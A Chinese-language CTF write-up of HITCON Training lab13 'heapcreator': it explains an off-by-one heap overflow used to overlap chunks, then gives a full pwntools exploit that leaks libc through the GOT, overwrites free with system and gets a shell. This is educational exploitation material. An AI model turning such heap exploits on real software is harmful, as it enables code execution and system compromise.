 ```yaml
---
title: "chunk extend"
date: 2019-09-21T09:39:11+08:00
draft: false
---
```



题目：

HITCON Trainging lab13

程序分析：

create : 长度没有进行检测，如果为负数，会导致任意长度堆溢出漏洞

edit :存在 off-by-one 漏洞

利用思路

- 利用 Off-by-one 漏洞覆盖下一个 chunk 的 size 字段
- 申请伪造的chunk大小，造成 overlapping, 修改关键指针

要注意因为 chunk0 大小是 0x18，会用到 chunk1 的 pre_size 部分。

然后溢出的时候刚好可以覆盖到 nextchunk 的 size 部分。

然后堆布局基本是这样的：

chunk1 info(0x20) | chunk1 | chunk2 info | chunk2

所以我们 chunk1 溢出修改的是 chunk2 info 的 size, 然后这个 chunk 就会覆盖到 chunk2 的信息，

从而我们可以修改 chunk2 信息，可以用来 leak info, 修改 got 表。

内存变化

这个覆盖了 size 后的 layout

```python
gef➤  x/16gx 0xb3c010-0x10
0xb3c000:	0x0000000000000000	0x0000000000000021
0xb3c010:	0x0000000000000018	0x0000000000b3c030
0xb3c020:	0x0000000000000000	0x0000000000000021
0xb3c030:	0x0068732f6e69622f	0x6161616161616161
0xb3c040:	0x6161616161616161	0x0000000000000041
0xb3c050:	0x0000000000000010	0x0000000000b3c070
0xb3c060:	0x0000000000000000	0x0000000000000021
0xb3c070:	0x0000000a62626262	0x0000000000000000
```

然后我们 delete 1, 根据程序分析，会 free 掉 chunk1 info 和 chunk1 这两个堆块。

然后我们再 malloc 一个 0x30 的 chunk。

这时候会 malloc 一个 0x20 的 info chunk，然后malloc 一个 0x40 的实际 chunk. 

自己画下图就明白内存的关系, 0x40 的 chunkA 包含了 0x20 的 info chunkB, 这样我们写 chunkA 时，就可以构造 chunkB 的数据，也就是 size 和 Ptr 的数据。这里我们将 ptr 改成了 free 函数的 got 地址。size 是 0x30 不变的。这样show的时候就可以泄露地址了，再改写 free 的 got 表为 system， 最后成功 getshell。



这道题主要是要搞清楚 chunk 和 info chunk，在堆中实际的 layout。最终就改写了指向 chunk 的 Ptr，利用 show 和 delete 函数，达到 leak info 和 getshell 的目的。



最终 exp

```python
from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')

context_level = 'debug'

def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
create(0x18,'aaaa')
create(0x10,'bbbb')

edit(0,'/bin/sh\x00'+'a'*0x10+"\x41")
delete(1)
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
show(1)

r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
log.success('free base addr: ' + hex(free_addr))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
gdb.attach(r)
system_addr = libc_base + libc.symbols['system']
#raw_input('1')                                                                    

edit(1, p64(system_addr))

# trigger system("/bin/sh")
delete(0)
r.interactive()

```

